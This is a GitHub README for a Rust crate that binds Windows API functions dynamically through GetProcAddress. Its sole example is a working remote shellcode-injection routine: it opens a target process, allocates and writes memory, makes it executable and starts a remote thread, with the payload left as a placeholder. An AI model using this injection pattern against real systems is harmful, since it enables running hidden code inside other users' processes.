 # dynamic-winapi

Provide raw FFI bindings to the Windows API by dynamically loading DLLs and resolving the functions with [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress).

This project is not a replacement for the [winapi-rs](https://github.com/retep998/winapi-rs) crate and you will more than likely require it if you use this project.

## Example
```Rust
use dynamic_winapi::um::{
    processthreadsapi::{CreateRemoteThreadEx, OpenProcess},
    memoryapi::{VirtualAllocEx, VirtualProtectEx, WriteProcessMemory},
};
use winapi::um::winnt::{
    MEM_COMMIT, PAGE_EXECUTE_READ, PAGE_READWRITE, PROCESS_ALL_ACCESS,
};

fn main() {
    // insert target PID
    let pid = 5100;
    // insert base64 encoded shellcode
    let shellcode_b64 = "<insert-valid-base64>";
    let mut shellcode = base64::decode(shellcode_b64).unwrap();
    let shellcode_ptr: *mut c_void = shellcode.as_mut_ptr() as *mut c_void; 

    // get process handle
    let handle = unsafe {OpenProcess().unwrap()(
        PROCESS_ALL_ACCESS,
        0x01,
        pid
    )};

    // alloc payload
    let addr_shellcode = unsafe {VirtualAllocEx().unwrap()(
        handle,
        std::ptr::null_mut(),
        shellcode.len(),
        MEM_COMMIT,
        PAGE_READWRITE
    )};
    let mut ret_len: usize = 0;
    let _ = unsafe {WriteProcessMemory().unwrap()(
        handle,
        addr_shellcode,
        shellcode_ptr,
        shellcode.len(),
        &mut ret_len
    )};

    // protect and execute
    let mut old_protect: u32 = 0;
    let _ = unsafe {VirtualProtectEx().unwrap()(
        handle,
        addr_shellcode,
        shellcode.len(),
        PAGE_EXECUTE_READ,
        &mut old_protect
    )};
    let _ = unsafe {CreateRemoteThreadEx().unwrap()(
        handle,
        std::ptr::null_mut(),
        0,
        std::mem::transmute(addr_shellcode),
        0 as _,
        0,
        std::ptr::null_mut(),
        0 as _
    )};
}
```

## Feedback

Feel free to file an issue or make a request for APIs [here](https://github.com/postrequest/dynamic-winapi/issues/new).

## Acknowledgments
[@retep998](https://github.com/retep998) for [winapi-rs](https://github.com/retep998/winapi-rs). This project would not have been possible without this, so if you use `dynamic-winapi` or [winapi-rs](https://github.com/retep998/winapi-rs), please consider supporting [@retep998](https://github.com/retep998) [here](https://patreon.com/retep998).  
